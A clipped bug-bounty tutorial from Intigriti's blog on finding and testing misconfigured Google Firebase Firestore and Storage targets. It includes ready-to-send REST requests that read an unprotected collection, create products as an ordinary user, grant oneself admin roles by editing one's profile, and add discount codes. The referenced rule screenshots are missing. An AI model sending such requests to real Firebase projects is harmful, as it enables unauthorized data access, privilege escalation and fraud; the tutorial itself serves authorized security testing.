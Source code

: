 ```yaml
---
title: "Hacking misconfigured Firebase targets: A complete guide"
source: "https://www.intigriti.com/researchers/blog/hacking-tools/hacking-google-firebase-targets"
author:
  - "blackbird-eu"
published: 2025-08-12
created: 2025-08-12
description: "Google Firebase is a popular back-end application development platform that provides several built-in components and services, allowing developers to seamlessly build interactive web and mobile applic..."
tags:
  - "clippings/articles"
  - "_inbox"
---
```

# Hacking misconfigured Firebase targets: A complete guide

![](https://www.datocms-assets.com/85623/1754902702-intigriti-blog-tools-featured-hacking-misconfigured-firebase-targets.jpg?auto=format&fit=max&w=1200)

> [!summary]
> This guide covers hacking misconfigured Google Firebase Firestore and Storage services, which are backend platforms for web and mobile applications. It explains how Firebase security rules are crucial for access control and how their misconfiguration can lead to unauthorized data read, write, and delete operations. The article details methods for identifying Firebase targets, including examining HTTP requests, analyzing JavaScript files for configuration data, and using Google or GitHub dorking. It then delves into testing for missing access controls by directly interacting with Firebase's REST API, both anonymously and as an authenticated user, providing examples for overly-permissive read, create, write, and delete rules. Finally, it touches upon testing for CORS misconfigurations in Firebase Storage that could allow unauthorized cross-origin requests.

Google Firebase is a popular back-end application development platform that provides several built-in components and services, allowing developers to seamlessly build interactive web and mobile applications.

In this article, we will cover the most common security misconfigurations in targets that actively use Google Firebase Firestore or Storage.

## What is Google Firebase?

Google Firebase is a comprehensive app development platform owned by Google that provides backend-as-a-service (BaaS) functionality.

Services include authentication, storage analytics, and application hosting.

will put our main focus on two services:

1. **Firebase Firestore:** A NoSQL document database for storing and syncing app data in real-time across clients.
2. **Firebase Storage:** A Cloud storage service for storing and serving user-generated content like images, videos, and files.

Both services provide built-in security access control rules, which we want to dive deeper into.

### Firebase security rules

Firebase security rules are a declarative configuration language that defines who can access your Firebase resources and under what conditions.

For instance, in Firebase Firestore, security rules determine which users can read, write, update, or delete documents and collections in your NoSQL database. For Firebase Storage, security rules serve a similar protective function but focus on file operations rather than database operations. They control who can upload, download, modify, or delete files in your storage buckets.

## Finding & identifying Firebase targets

### Examining HTTP requests

The most straightforward approach to fingerprinting Firebase in your target is by examining outgoing HTTP requests. On some occasions, you will come across targets that make use of Firebase services without deploying a server between the client-side and Firebase's REST API.

\*.firebaseio.com and .firebaseapp.com

### Examining JavaScript files

JavaScript files will often contain Firebase configuration data, including the project ID, database URL (pointing to `*.firebaseio.com`, storage bucket (pointing to `firebasestorage.app`), etc

## Testing for missing access controls

It is worth noting that whenever testing for missing access controls, you must perform your tests directly against Firebase's REST API. Additionally, because of the way Firebase rules are enforced (deny-by-default), we must test for access controls with and without credentials. Practically, this means that we'll need to test access as an anonymous navigator (without credentials) as well as an authenticated (logged in) user.

Since Firebase security rules are granular and allow developers to specify security conditions per resource (such as file, database, database collection, etc.), we must ensure that we also test all endpoints separately.

### Testing for missing read access controls

Example of a misconfigured Firebase Firestore security rule definition

we can see that all access is restricted by default. However, access to the `/contact-form-data` endpoint is insufficiently protected, allowing anyone to read contact form inquiries containing sensitive contact details.

In practice, we could visit one of the following endpoints and read all the data:

```
https://firestore.googleapis.com/v1/projects/<PROJECT_ID>/databases/(default)/documents/contact-form-data
```

Example of a misconfigured Firebase Firestore instance

### Testing for missing create and write access controls

Firebase Firestore and Storage support the 4 data manipulation operations: **C**reate, **R**ead, **U**pdate (write), and **D**elete.

Example of a misconfigured Firebase Firestore security rule definition

we can spot 3 issues:

1. The endpoint `/admin-mgmt/products` only performs authentication checks (no authorization validation)
2. The endpoint `/admin-mgmt/discount-codes` allows read, create, and delete access if the user role of `admin` or `maintainer` is in the authentication object.
3. The endpoint `/users/profile` does not perform any data validation before insertion, allowing us (as an authenticated user) to assign or add a user role of choice.

The first flaw allows us to create new products as any authenticated user. Replicating the following HTTP request would essentially create a new product that'd be visible on the forefront of our target's webshop.

```
POST /v1/projects/<PROJECT_ID>/databases/(default)/documents/admin-mgmt/products HTTP/2
Host: firestore.googleapis.com
Content-Type: application/json
Authorization: Bearer USER_ID
Content-Length: 336

{
  "fields": {
    "name": {
      "stringValue": "New Product"
    },
    "price": {
      "doubleValue": 9999.99
    },
    "description": {
      "stringValue": "This product was created by an unauthorized user"
    },
    "category": {
      "stringValue": "intigriti"
    },
    "inStock": {
      "booleanValue": true
    }
  }
}
```

In combination with the `/admin-mgmt/discount-codes`, we can essentially add our discount codes that would work on the checkout page.

#### Request 1: Updating our profile to include the necessary user roles

```
PATCH /v1/projects/<PROJECT_ID>/databases/(default)/documents/users/profile/<USER_ID> HTTP/2
Host: firestore.googleapis.com
Content-Type: application/json
Authorization: Bearer <USER_ID_TOKEN>
Content-Length: 308

{
  "fields": {
    "name": {
      "stringValue": "Intigriti Example"
    },
    "email": {
      "stringValue": "intigriti@intigriti.me"
    },
    "roles": {
      "arrayValue": {
        "values": [
          {"stringValue": "admin"},
          {"stringValue": "maintainer"}
        ]
      }
    }
  }
}
```

#### Request 2: Adding new discount codes

```
POST /v1/projects/<PROJECT_ID>/databases/(default)/documents/admin-mgmt/discount-codes HTTP/2
Host: firestore.googleapis.com
Content-Type: application/json
Authorization: Bearer <USER_ID_TOKEN>
Content-Length: 308

{
  "fields": {
    "code": {
      "stringValue": "INTIGRITI1337"
    },
    "discount": {
      "doubleValue": 1337.0
    },
    "expiryDate": {
      "timestampValue": "2025-12-31T23:59:59Z"
    },
    "usageLimit": {
      "integerValue": 1
    },
    "isActive": {
      "booleanValue": true
    }
  }
}
```